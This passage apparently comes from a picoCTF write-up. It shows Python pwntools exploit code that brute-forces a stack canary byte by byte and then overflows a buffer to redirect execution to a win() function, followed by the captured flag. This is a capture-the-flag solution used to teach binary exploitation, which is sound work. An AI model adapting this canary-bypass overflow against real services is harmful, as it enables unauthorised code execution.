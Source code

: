 ```python
                log.info('Corrupt')

            if 'Flag?' in result:
                print "Guessed correct byte:", format(guess, '02x')
                canary += p8(guess)
                payload += p8(guess)
                guess = 0x0
                break
            guess += 1
            pause()
    return

def exploit(r):
    payload = ''
    payload += 'A'*canary_offset
    payload += p32(canary)     #pack canary into overflow to bypass security restrictions
    payload += 'A'*eip_offset
    payload += p32(win_addr)*3   #overwrite eip with addr of win()
    #payload += 'B'*4
    #payload += p32(binary.symbols['exit'])
    #payload += p32(win_addr)

    log.info('Sending payload %s' % payload)
    r.sendlineafter('\n> ', '%s' % str(len(payload)+1))
    r.sendlineafter('Input> ', payload)

    print r.recvline()
    return
```

```bash
picoCTF{eT_tU_bRuT3_F0Rc3_58bc7747}
```

## Echo Back
